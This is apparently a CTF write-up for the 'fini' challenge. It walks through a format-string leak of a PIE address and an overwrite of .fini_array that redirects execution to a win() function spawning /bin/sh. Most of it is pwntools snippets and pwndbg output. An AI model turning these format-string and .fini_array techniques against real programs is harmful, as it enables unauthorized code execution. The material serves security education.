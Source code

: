 ```yaml
---
title: "CTF@AC 2025 – fini: Hijacking .fini_array for a shell"
date: 2025-09-14
toc: true
---
```


> *Hope you can FINIsh this challenge.*

```bash
$ file ./challenge | tr ',' '\n'
./challenge: ELF 64-bit LSB pie executable
 x86-64
 version 1 (SYSV)
 dynamically linked
 interpreter /lib64/ld-linux-x86-64.so.2
 BuildID[sha1]=4293e516c8a744cddc10088c31128d37fd365557
 for GNU/Linux 3.2.0
 not stripped

$ pwn checksec ./challenge
[*] '/home/kali/Desktop/ctfs/others/fini/challenge'
    Arch:       amd64-64-little
    RELRO:      No RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        PIE enabled
    Stripped:   No

$ ./challenge 
=== FINIsh this challenge ;) ===
What's your name?
z0v3r1n
Hello, z0v3r1n
!
1) write
2) exit
> 1
Addr (hex): 1234
Value (hex, 8 bytes): abc
zsh: segmentation fault  ./challenge
```

Looking at the defined functions we find a `win()` function:

```
pwndbg> info func                                  
All defined functions:

Non-debugging symbols:                             
0x0000000000001000  _init
0x0000000000001030  puts@plt
0x0000000000001040  system@plt
0x0000000000001050  printf@plt
0x0000000000001060  fgets@plt                      
0x0000000000001070  setvbuf@plt                    
0x0000000000001080  __isoc99_scanf@plt
0x0000000000001090  exit@plt
0x00000000000010a0  __cxa_finalize@plt
0x00000000000010b0  main
0x0000000000001290  _start
0x00000000000012c0  deregister_tm_clones
0x00000000000012f0  register_tm_clones
0x0000000000001330  __do_global_dtors_aux
0x0000000000001370  frame_dummy
0x0000000000001380  win
0x000000000000138c  _fini

pwndbg> disas win
Dump of assembler code for function win:
   0x0000000000001380 <+0>:     lea    rdi,[rip+0xc7d]        # 0x2004
   0x0000000000001387 <+7>:     jmp    0x1040 <system@plt>
End of assembler dump.

pwndbg> x/s 0x2004   
0x2004: "/bin/sh" 
```

Looking at the implementation of the greeting in the `main()` function we can see that the program prints our name unsafely i.e. without any format specifiers giving rise to fmt-string vulnerability.

```c
  puts("=== FINIsh this challenge ;) ===");
  puts("What\'s your name?");
  fgets((char *)name,0x80,stdin);
  printf("Hello, ");
  printf((char *)name);
```

We can confirm the fmt-string vulnerability by inputting a fmt-string:

```shell
$ ./challenge        
=== FINIsh this challenge ;) ===
What's your name?
%x.%x
Hello, 341636c0.0
!
1) write
2) exit
> ^C
```

We can use this fmt-string vulnerability to leak a PIE addr using which we can bypass ASLR.

```
$ gdb -q ./challenge
...SNIP...
pwndbg> disas main
```

![](https://github.com/user-attachments/assets/bdb321d0-f439-42ca-bf25-c6e28b3168d7)

Breaking after the `fgets()` call to analyze the memory around our input:

```shell
pwndbg> b *main+146
Breakpoint 1 at 0x1142
pwndbg> r
...SNIP...
=== FINIsh this challenge ;) ===
What\'s your name?
AAAAAAAA

Breakpoint 1, 0x0000555555555142 in main ()
...SNIP...
pwndbg> search AAAAAAAA stack
Searching for byte: b'AAAAAAAA'
[stack]         0x7fffffffdc00 'AAAAAAAA\n'

pwndbg> vmmap
...SNIP...
►   0x555555554000     0x555555555000 r--p     1000       0 challenge
►   0x555555555000     0x555555556000 r-xp     1000    1000 challenge
►   0x555555556000     0x555555557000 r--p     1000    2000 challenge
►   0x555555557000     0x555555558000 rw-p     1000    2000 challenge
...SNIP
    
pwndbg> dq 0x7fffffffdc00 30
00007fffffffdc00     4141414141414141 000000000000000a
00007fffffffdc10     0000000000040000 ffffffffffffffff
00007fffffffdc20     0000000000000040 0000000000000004
00007fffffffdc30     0000000000008000 0000000000000000
00007fffffffdc40     0000008e00000006 0000000000000000
00007fffffffdc50     0000000000000000 0000000000000000
00007fffffffdc60     0000000000000000 0000000000000000
00007fffffffdc70     0000000000000000 0000000000000000
00007fffffffdc80     00007fffffffddb8 0000000000000001
00007fffffffdc90     0000000000000000 00007fffffffddc8
00007fffffffdca0     00007ffff7ffd000 00007ffff7dd9ca8
00007fffffffdcb0     00007fffffffdda0 00005555555550b0
00007fffffffdcc0     0000000155554040 00007fffffffddb8
00007fffffffdcd0     00007fffffffddb8 6a511514e74da407
00007fffffffdce0     0000000000000000 00007fffffffddc8

pwndbg> p (0x00007fffffffdcb0-0x00007fffffffdc00)/8 + 9
$3 = 31
```

Leaking the PIE address using the fmt-string vulnerability:

```
$ ./challenge
=== FINIsh this challenge ;) ===
What's your name?
%31$lx
Hello, 55ca370b20b0
!
1) write
2) exit
> ^C
```

We can calculate the PIE base by substracting the offset:

```python
io.sendlineafter(b"?", b"%31$lx")
io.recvuntil(b", ")
pieBase = int(io.recvline().strip(), 16) - 0x10b0
log.success(f"pieBase: {hex(pieBase)}")
```

![](https://github.com/user-attachments/assets/15e61dd5-be72-42a3-b61d-f5e7e58cc405)

Now as the name of the challenge is **fini** which points us to the `.fini_array` which contains an array of functions which are executed sometime after main returns.

```
pwndbg> info file
		...SNIP...
        0x00000000000031c8 - 0x00000000000031d0 is .fini_array
		...SNIP...
```

We can overwrite this to the address of `win()` function so, when the main returns and the `.fini_array` function entries are executed our `win()` function spawns a shell.

Setting up the overwrite:

```python
FINI_ARRAY = pieBase + 0x31c8
WIN_ADDR   = pieBase + 0x1380

io.sendlineafter(b"> ", b"1")
io.sendlineafter(b"(hex): ", hex(FINI_ARRAY).encode())
io.sendlineafter(b"(hex, 8 bytes): ", hex(WIN_ADDR).encode())
```

We can confirm the overwrite in `gdb`:

```
pwndbg> info file
		...SNIP...
        0x000055e8d60221c8 - 0x000055e8d60221d0 is .fini_array
		...SNIP...

pwndbg> p win
$1 = {<text variable, no debug info>} 0x55e8d6020380 <win>

pwndbg> x/gx 0x000055e8d60221c8
0x55e8d60221c8: 0x000055e8d6020380
```

Now, as we have overwritten the `.fini_array[0]` when we exit our `win()` function will be executed which will spawn a shell.

```python
io.sendlineafter(b"> ", b"2")
io.interactive()
```

![](https://github.com/user-attachments/assets/98e5bc85-b0b8-4da0-8058-988922b34fc1)

You can find the full exploit script [here](https://google.com).

